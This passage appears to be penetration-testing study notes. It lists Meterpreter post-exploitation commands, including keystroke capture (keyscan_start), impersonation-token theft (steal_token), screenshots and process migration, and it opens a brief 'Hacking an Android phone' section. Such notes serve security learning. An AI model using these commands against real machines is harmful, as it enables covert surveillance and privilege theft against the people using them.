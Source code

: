 Some basic things we can do:

Get system info
```sh
sysinfo
```

Make a directory
```sh
mkdir hello
```

Delete directory
```sh
rmdir hello
```

See what user we are running as
```sh
getuid
```

Capture keyboard
```sh
keyscan_start
```

Stop capturing keyboard
```sh
keyscan_stop
```

Attempts to steal an impersonation token
```sh
steal_token
```

Display the network connections
```sh
netstat
```

Take screenshot
```sh
screenshot
```

Migrate the server to another process
```sh
migrate
```
- Doesn't always work

---

**Hacking an Android phone**

Tools: Vysor

You need to change the network from Nat Network to Bridged Adaptor so it can identify the Android phone.
